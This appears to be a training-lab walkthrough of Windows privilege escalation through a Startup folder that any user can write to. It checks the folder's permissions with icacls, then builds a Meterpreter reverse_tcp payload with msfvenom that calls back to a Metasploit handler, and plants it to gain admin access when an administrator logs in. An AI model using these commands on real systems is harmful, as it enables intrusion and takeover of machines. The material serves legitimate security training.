 ## Startup Applications

Detection

Windows VM

1. Open command prompt and type: icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.

Exploitation

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open another command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe
7. Copy the generated file, x.exe, to the Windows VM.

Windows VM

1. Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.
2. Logoff.
3. Login with the administrator account credentials.

Kali VM

1. Wait for a session to be created, it may take a few seconds.
2. In Meterpreter(meterpreter > prompt) type: getuid
3. From the output, notice the user is “User-PC\Admin”